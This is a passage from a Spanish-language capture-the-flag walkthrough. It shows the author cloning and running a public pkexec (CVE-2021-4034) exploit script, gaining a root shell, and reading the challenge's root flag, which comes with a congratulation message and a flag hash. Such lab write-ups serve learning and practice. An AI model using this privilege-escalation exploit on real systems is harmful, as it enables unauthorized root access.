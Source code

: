 Con esto nos clonamos el repositorio de `GitHub` para poder utilizarlo en el servidor...

```shell
#Entramos al directorio
cd pkexec-exploit/

#Le ponemos permisos de ejecuccion
chmod +x CVE-2021-4034.py
```

```shell
python3 CVE-2021-4034.py
```

Info:

```
Do you want to choose a custom payload? y/n (n use default payload)  n
[+] Cleaning pervious exploiting attempt (if exist)
[+] Creating shared library for exploit code.
[+] Finding a libc library to call execve
[+] Found a library at <CDLL 'libc.so.6', handle 7f9bbe0ef4f0 at 0x7f9bbd9b39b0>
[+] Call execve() with chosen payload
[+] Enjoy your root shell
# whoami
root
# 
```

Con esto ya seriamos `root`, por lo que ahora nos iremos a leer la flag...

> root.txt (flag2)

```
Congratulations on successfully completing the challenge! I hope you enjoyed as much as i did while creating such device. 
Send me some feedback at @whitecr0wz! 


                         .'  .-.'__.-----.\
                        /    `-'(__--'
                      .'       `. _ `--._
                     /            .`--'''`
                    /           .'   
                 _.'-.         J    
                /    J         F    
              .'     F        J     
             /      /         /-.    
            /      /         /   \    
           /      /         J    |      
          /      /          /   /   
         /   /  /          J   /    
        /   /  /           /-'/
       /   / -'           /  /    
      J   / /            / .'      
      / -'-'   /        /-'        
     (/|      |        /           
      /.'   ) | _.--  /            
     //     < \/   (  |            
    //       `.\    `.`.           
   //     ___/ \ `-.  `.`. 
   - ----'      )|`.\)  `-))\-')  
                '   )     ')/

Until then!

8930fa079a510ee880fe047d40dc613e
```
